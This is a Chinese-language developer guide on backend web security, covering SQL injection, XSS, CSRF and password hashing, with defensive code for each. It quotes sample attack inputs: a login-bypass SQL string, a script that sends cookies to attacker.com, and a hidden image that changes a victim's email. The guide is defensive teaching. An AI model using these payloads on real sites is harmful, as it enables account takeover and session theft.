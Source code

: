 ```yaml
---
title: Security
layout: collection
permalink: /backend/security/
collection: backend
category: backend
tags:
  - backend
  - security
---
```


---

你可能覺得“安全是安全專家的事”，但一個小小的安全漏洞就可能導致用戶數據洩露、服務癱瘓、公司聲譽掃地。在現代軟體開發中，安全是每個開發者的責任。一個SQL注入漏洞，就可能讓你的整個數據庫被拖走。

本指南將從開發者的視角出發，介紹最常見的安全威脅以及如何在代碼層面進行有效防禦。

- **目標讀者**: 所有希望編寫更安全代碼的軟體開發者。
- **你將學到**: 如何識別和修復常見的 Web 安全漏洞，並建立“安全第一”的開發思維。

---

## 核心防禦策略

### 1. 永遠不要相信用戶的輸入——輸入驗證與過濾

**威脅**: 攻擊者可以通過輸入惡意數據來執行非預期的操作。最經典的例子就是 **SQL 注入 (SQL Injection)**。

**攻擊場景**:
假設你有一個登錄查詢：
```sql
SELECT * FROM users WHERE username = '" + username + "' AND password = '" + password + "';
```
如果一個攻擊者在用戶名輸入框中填入 `admin' --`，那麼實際執行的 SQL 將變為：
```sql
SELECT * FROM users WHERE username = 'admin' --' AND password = '...';
```
`--` 在 SQL 中是註釋符，後面的所有內容都被忽略了。攻擊者就這樣繞過了密碼驗證，成功以 `admin` 用戶身份登錄。

**防禦措施：參數化查詢 (Parameterized Queries)**
永遠不要手動拼接 SQL 字符串。使用你所用語言或框架提供的參數化查詢（也稱為預備語句，Prepared Statements）。

```python
# Python (使用 psycopg2 庫) 的正確做法
cursor.execute(
    "SELECT * FROM users WHERE username = %s AND password = %s",
    (username, password) # 元組中的值會被安全地處理，而不是直接插入查詢字符串
)
```
這樣做，數據庫驅動會將用戶輸入作為純數據處理，而不是作為 SQL 命令的一部分，從根本上杜絕了 SQL 注入的可能。

---

### 2. 別讓攻擊者在你的網站上“貼小廣告”——防禦 XSS

**威脅**: **跨站腳本攻擊 (Cross-Site Scripting, XSS)** 是指攻擊者將惡意腳本注入到你的網頁中，當其他用戶瀏覽這個頁面時，惡意腳本就會在他們的瀏覽器中執行。

**攻擊場景**:
在一個有評論功能的網站上，如果你的後端直接將用戶提交的評論內容顯示在頁面上，攻擊者可以提交這樣的評論：
```html
<script>fetch('https://attacker.com/steal?cookie=' + document.cookie)</script>
```
當其他用戶查看這條評論時，他們的瀏覽器會執行這段腳本，將他們的 Cookie（可能包含 Session 信息）發送到攻擊者的伺服器。攻擊者就可以利用這個 Cookie 冒充用戶登錄。

**防禦措施：輸出編碼 (Output Encoding)**
在將任何來自用戶的內容顯示到頁面前，對其進行 HTML 編碼。這會將特殊字符（如 `<`、`>`）轉換為它們的 HTML 實體表示（如 `&lt;`、`&gt;`）。

-   **原則**: 瀏覽器會將 `&lt;script&gt;` 作為純文本顯示出來，而不會將其作為標籤來執行。
-   **實戰**: 大多數現代模板引擎（如 Jinja2, EJS, ERB）默認都會進行輸出編碼。你需要確保這個功能是開啟的。

```jinja
{# Jinja2 模板引擎會自動進行編碼 #}
<div>{{ user_comment }}</div>
```
渲染後的 HTML 將是：
```html
<div>&lt;script&gt;fetch(...)&lt;/script&gt;</div>
```
這樣惡意腳本就失效了。

---

### 3. 確認指令是你本人下達的——防禦 CSRF

**威脅**: **跨站請求偽造 (Cross-Site Request Forgery, CSRF)** 是指攻擊者誘騙已登錄的用戶在不知情的情況下，向你的網站發送一個惡意的請求。

**攻擊場景**:
1.  假設你的網站有一個“修改郵箱”的功能，請求的 URL 是 `https://example.com/change_email?new_email=...`。
2.  用戶已經登錄了你的網站。
3.  攻擊者製作了一個惡意網頁，其中包含一張看不見的圖片，其 `src` 指向你的修改郵箱接口：
    ```html
    <img src="https://example.com/change_email?new_email=attacker@evil.com" width="0" height="0">
    ```
4.  攻擊者誘騙用戶訪問這個惡意網頁。
5.  用戶的瀏覽器會自動加載這張“圖片”，因為用戶處於登錄狀態，瀏覽器會自動帶上 `example.com` 的 Cookie。你的伺服器收到請求後，認為是合法操作，於是將用戶的郵箱修改為攻擊者的郵箱。

**防禦措施：CSRF Token**

-   **工作流程**:
    1.  當用戶訪問表單頁面時，伺服器生成一個隨機、唯一的 Token（CSRF Token），並將其嵌入到表單的一個隱藏字段中。同時，伺服器也將這個 Token 存儲在用戶的 Session 中。
    2.  當用戶提交表單時，這個 Token 會隨表單一起發送到伺服器。
    3.  伺服器比較表單提交的 Token 和 Session 中存儲的 Token。如果兩者匹配，則處理請求；如果不匹配，則拒絕請求。

-   **原理**: 攻擊者無法獲取用戶 Session 中的 Token，因此無法偽造合法的請求。

```python
# Flask (使用 Flask-WTF 擴展) 的 CSRF 保護
from flask_wtf.csrf import CSRFProtect

app = Flask(__name__)
app.config['SECRET_KEY'] = 'a-secret-key-for-sessions'
csrf = CSRFProtect(app)

# 在模板的表單中，插入 {{ form.csrf_token }}
# Flask-WTF 會自動處理 Token 的生成和驗證
```

---

### 4. 保護你的用戶憑證——安全的密碼存儲

**威脅**: 如果你以明文形式存儲用戶密碼，一旦數據庫洩露，所有用戶的賬戶都將暴露在風險之中。

**錯誤的做法**: 直接存儲密碼，或者使用像 MD5、SHA1 這樣過時的哈希算法。這些算法很容易被“彩虹表”攻擊破解。

**正確的防禦措施：使用現代的、加鹽的哈希算法**

-   **核心概念**:
    -   **哈希 (Hashing)**: 將任意長度的輸入轉換為固定長度的輸出，且該過程不可逆。
    -   **鹽 (Salting)**: 在對密碼進行哈希之前，為每個密碼附加一個隨機生成的、唯一的字符串（鹽）。這樣，即使兩個用戶設置了相同的密碼，由於鹽不同，它們存儲在數據庫中的哈希值也完全不同。

-   **推薦算法**: **Argon2** (目前的競賽冠軍), **scrypt**, 或 **bcrypt**。

```python
# Python (使用 passlib 庫)
from passlib.context import CryptContext

# 推薦使用 Argon2
pwd_context = CryptContext(schemes=["argon2"], deprecated="auto")

# 哈希密碼 (包含了自動生成的鹽)
def hash_password(password):
    return pwd_context.hash(password)

# 驗證密碼
def verify_password(plain_password, hashed_password):
    return pwd_context.verify(plain_password, hashed_password)

# 存儲在數據庫中的將是 hash_password() 返回的長字符串
```

---

## 安全開發的思維檢查清單

-   [ ] **數據庫交互**: 我是否所有 SQL 查詢都使用了參數化？
-   [ ] **前端渲染**: 我是否對所有由用戶提供的、要在頁面上顯示的內容都進行了輸出編碼？
-   [ ] **狀態變更操作**: 我是否對所有會引起狀態變更的請求（特別是 POST, PUT, DELETE）都啟用了 CSRF 保護？
-   [ ] **用戶認證**: 我是否使用了 Argon2 或 bcrypt 等現代算法來存儲密碼哈希？
-   [ ] **依賴管理**: 我是否定期掃描並更新我的項目依賴（如 `npm audit`, `pip-audit`），以修復已知的安全漏洞？
-   [ ] **權限控制**: 我的 API 是否嚴格檢查了用戶是否有權限執行請求的操作（授權）？
-   [ ] **日誌記錄**: 我是否記錄了足夠的信息以便在安全事件發生後進行追溯？但同時，我是否避免在日誌中記錄密碼、Token 等敏感信息？